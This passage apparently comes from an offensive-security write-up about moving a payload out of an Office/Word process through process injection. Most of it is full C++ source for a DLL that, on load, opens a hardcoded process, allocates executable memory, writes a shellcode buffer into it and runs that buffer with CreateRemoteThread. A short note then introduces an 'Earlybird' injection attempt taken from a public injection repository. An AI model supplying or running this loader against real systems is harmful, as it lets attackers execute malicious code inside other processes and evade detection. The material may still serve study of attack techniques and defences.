 ### Lessons

Somewhat viable option in need of some "smarts" to nail down a target process. Iterating process, owners, and architecture in c++ did not come easy to me. Thinking maybe there is an easier way, next I looked to hollow/earlybird.

### Source

```cpp
extern "C" __declspec(dllexport) void runner()
{
    unsigned char shellcode[] = "[...]";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi("2716"))); // <-- hardcoded
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        runner();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## Attempt: Earlybird

An attempt to migrate to another process before the Office/Word process ended. Source was nabbed from [theevilbit/injection](https://github.com/theevilbit/injection). 
